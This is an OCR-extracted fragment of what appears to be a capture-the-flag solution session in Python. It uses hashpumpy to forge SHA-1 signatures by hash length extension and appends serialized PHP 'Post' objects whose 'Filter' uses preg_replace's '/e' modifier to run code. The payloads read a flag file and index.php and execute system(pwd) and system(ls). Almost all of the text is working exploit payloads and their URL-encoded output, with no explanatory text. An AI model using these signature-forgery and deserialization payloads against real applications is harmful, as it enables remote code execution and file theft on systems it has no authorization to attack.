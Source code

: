 'af6a34f1325d5d4e611a1eca4295a1fba7b1f5c9'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A44%3A%22file_get_contents%28%27%2Fhome%2Fdaedalus%2Fflag.txt%27%29%22%3B%7D%7D%7D'

# Post object with complex filter (index.php)
add = "\n" + "O:4:\"Post\":3:{s:8:\"\00*\x00title\";s:5:\"title\";s:7:\"\00*\x00text\";s:1:\"a\";s:10:\"\00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\00*\x00pattern\";s:4:\"/a/e\";s:7:\"\00*\x00repl\";s:30:\"file_get_contents('index.php')\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'c7aca860b5608beee1705109be2d03f6804eed04'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A30%3A%22file_get_contents%28%27index.php%27%29%22%3B%7D%7D%7D'

# Post object with complex filter (system pwd)
add = "\n" + "O:4:\"Post\":3:{s:8:\"\00*\x00title\";s:5:\"title\";s:7:\"\00*\x00text\";s:1:\"a\";s:10:\"\00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\00*\x00pattern\";s:4:\"/a/e\";s:7:\"\00*\x00repl\";s:11:\"system(pwd)\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'14df21bc7fd2f277a9b1ba1225444af6dcd1e345'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A11%3A%22system%28pwd%29%22%3B%7D%7D%7D'

# Post object with complex filter (system ls)
add = "\n" + "O:4:\"Post\":3:{s:8:\"\00*\x00title\";s:5:\"title\";s:7:\"\00*\x00text\";s:1:\"a\";s:10:\"\00*\x00filters\";a:1:{i:0;O:6:\"Filter\":2:{s:10:\"\00*\x00pattern\";s:4:\"/a/e\";s:7:\"\00*\x00repl\";s:10:\"system(ls)\";}}}"
h = hashpumpy.hashpump(sig, data, add, kl)
h[0]
urllib.quote_plus(h[1])

'3d793481e67b34f5f08198790cd26957d083a79e'
'b%3A1%3B%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A5%3A%22title%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A1%3A%22a%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A4%3A%22%2Fa%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A10%3A%22system%28ls%29%22%3B%7D%7D%7D'
